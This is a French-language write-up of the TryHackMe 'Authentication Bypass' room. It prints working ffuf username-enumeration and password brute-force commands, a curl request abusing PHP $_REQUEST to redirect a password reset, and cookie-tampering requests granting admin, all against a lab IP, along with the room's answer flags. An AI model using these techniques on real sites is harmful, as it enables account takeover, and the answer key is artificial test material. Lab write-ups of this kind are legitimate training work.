 # 🔐 TryHackMe – Authentication Bypass

Dans cette room, nous explorons différentes façons de contourner ou casser les mécanismes d'authentification sur un site web. On y découvre des failles comme :
- L’énumération de comptes
- Le bruteforce
- Les erreurs logiques (logic flaws)
- Le cookie tampering
- Le déchiffrement ou encodage de sessions

---

## 🧩 Task 1 – Introduction

> **But** : Comprendre que les failles d’authentification sont souvent critiques car elles permettent d'accéder à des comptes utilisateurs ou d’administrateurs.

✅ *Aucune question dans cette étape*

---

## 🧩 Task 2 – Username Enumeration

**URL ciblée** : `http://10.10.60.101/customers/signup`  
**Erreur visible** : `"username already exists"`

### 🔧 Commande ffuf utilisée :
```bash
ffuf -w /usr/share/seclists/Usernames/Names/names.txt \
-X POST -d "username=FUZZ&email=x&password=x&cpassword=x" \
-H "Content-Type: application/x-www-form-urlencoded" \
-u http://10.10.60.101/customers/signup \
-mr "username already exists"
````

### ✅ Usernames trouvés :

* admin
* robert
* simon
* steve

➡️ Ajoutés dans `valid_usernames.txt`

### 📌 Réponses :

* 2.1. **simon**
* 2.2. **steve**
* 2.3. **robert**

---

## 🧩 Task 3 – Brute Force

**URL ciblée** : `http://10.10.60.101/customers/login`
**Wordlists utilisées** :

* Usernames : `valid_usernames.txt`
* Passwords : `10-million-password-list-top-100.txt`

### 🔧 Bruteforce combiné :

```bash
ffuf -w valid_usernames.txt:W1,/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 \
-X POST -d "username=W1&password=W2" \
-H "Content-Type: application/x-www-form-urlencoded" \
-u http://10.10.60.101/customers/login \
-fc 200
```

### ✅ Résultat trouvé :

* 3.1. **steve/thunder**

---

## 🧩 Task 4 – Logic Flaw (PHP $\_REQUEST Abuse)

**Cible** : `http://10.10.60.101/customers/reset`

> L'application utilise `$_REQUEST`, ce qui permet d'**écraser l'adresse email** de l'utilisateur dans la requête de reset.

### 🔧 Exploit :

1. Créer un compte avec : `toto@customer.acmeitsupport.thm`
2. Lancer :

```bash
curl 'http://10.10.60.101/customers/reset?email=robert@acmeitsupport.thm' \
-H 'Content-Type: application/x-www-form-urlencoded' \
-d 'username=robert&email=toto@customer.acmeitsupport.thm'
```

3. Se connecter avec `toto`, ouvrir les tickets → clic sur le lien de login auto en tant que **Robert**

### ✅ Réponse :

* 4.1. **THM{AUTH\_BYPASS\_COMPLETE}**

---

## 🧩 Task 5 – Cookie Tampering

### 🔧 Requête initiale :

```bash
curl http://10.10.60.101/cookie-test
```

➡️ Réponse : `Not Logged In`

---

### 🔧 Requête avec cookie utilisateur :

```bash
curl -H "Cookie: logged_in=true; admin=false" http://10.10.60.101/cookie-test
```

➡️ Réponse : `Logged In As A User`

---

### 🔧 Requête avec cookie admin :

```bash
curl -H "Cookie: logged_in=true; admin=true" http://10.10.60.101/cookie-test
```

➡️ Réponse + flag : `Logged In As An Admin`

### ✅ Réponse :

* 5.1. **THM{COOKIE\_TAMPERING}**

---

## 🔐 Bonus – Hash & Encodage

### 5.2. MD5 hash

```text
3b2a1053e3270077456a79192070aa78 → 463729
```

Réponse : **463729**

---

### 5.3. Base64 decode

```bash
echo 'VEhNe0JBU0U2NF9FTkNPRElOR30=' | base64 -d
```

Résultat : **THM{BASE64\_ENCODING}**

---

### 5.4. Base64 encode

```bash
echo -n '{"id":1,"admin":true}' | base64
```

Résultat : **eyJpZCI6MSwiYWRtaW4iOnRydWV9**

---

## ✅ Résumé des flags

| Étape    | Flag                           |
| -------- | ------------------------------ |
| Task 3   | `steve/thunder`                |
| Task 4   | `THM{AUTH_BYPASS_COMPLETE}`    |
| Task 5.1 | `THM{COOKIE_TAMPERING}`        |
| Task 5.2 | `463729`                       |
| Task 5.3 | `THM{BASE64_ENCODING}`         |
| Task 5.4 | `eyJpZCI6MSwiYWRtaW4iOnRydWV9` |

---

### 🧠 Concepts clés retenus

* `ffuf` permet d’énumérer et bruteforcer efficacement des endpoints web
* `$_REQUEST` en PHP est dangereux s’il est mal utilisé
* Des cookies modifiables en clair peuvent conduire à une élévation de privilèges
* Base64 n’est **pas une sécurité**, juste un encodage lisible


